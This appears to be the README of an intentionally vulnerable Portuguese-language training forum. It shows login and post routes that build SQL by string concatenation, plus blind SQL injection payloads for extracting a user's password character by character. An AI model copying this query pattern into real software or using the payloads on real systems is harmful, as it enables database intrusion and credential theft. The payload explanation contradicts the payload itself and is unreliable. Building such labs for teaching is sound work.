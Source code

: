 # Fórum com Injeção SQL Cega

## Configuração

1. Instale as dependências:

```
npm install
```

2. Inicialize o banco de dados com dados de exemplo:

```
node setup-db.js
```

3. Inicie o servidor:

```
npm start
```

4. Acesse o fórum em: http://localhost:3000

## Vulnerabilidades

### 1. Injeção SQL na Página de Login

A página de login também é vulnerável à injeção SQL. As entradas do usuário para nome de usuário e senha são concatenadas diretamente na consulta SQL sem sanitização:

```javascript
app.post("/login", (req, res) => {
  const { username, password } = req.body;

  // VULNERÁVEL: Blind SQLi cega na consulta de login
  // concatenando diretamente a entrada do usuário na consulta SQL
  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;

  db.get(query, (err, user) => {
    // ...manipulação da resposta...
  });
});
```

Mensagem de teste' AND (SELECT role FROM users WHERE username='PaulAtreides')='admin' AND '1'='1

### 2. Injeção SQL Cega na Postagem de Mensagens

O endpoint `/post` para postar novas mensagens também é vulnerável à injeção SQL cega. Isso pode ser explorado para extrair dados do banco de dados:

```javascript
app.post("/post", (req, res) => {
  const { username, content, planet } = req.body;

  // VULNERÁVEL: Injeção SQL cega na postagem de mensagem
  const query = `INSERT INTO messages (username, content, planet) 
                  VALUES ('${username}', '${content}', '${
    planet || "Desconhecido"
  }')`;

  db.run(query, (err) => {
    // ...manipulação da resposta...
  });
});
```

#### Exemplo de Ataque

Ao postar uma mensagem, você pode usar o seguinte payload no campo de conteúdo para extrair informações de senha caractere por caractere:

```
Essa mensagem não tem nenhum payload', (SELECT CASE WHEN (SELECT substr(password,1,1) FROM users WHERE username='PaulAtreides')='a' THEN 'success' ELSE 'fail' END)) -- '
```

#### Explicação do Payload:

1. Fecha a string atual com uma aspa e adiciona uma vírgula
2. Usa uma instrução CASE para verificar se o primeiro caractere da senha de Paul é 'm'
3. Comenta o resto da consulta

Se o primeiro caractere for 'a', a consulta é executada com sucesso. Se não, ela falha devido a erros de sintaxe SQL.

Para extrair a senha completa, modifique a posição (altere `1,1` para `2,1` para o segundo caractere) e tente diferentes caracteres.
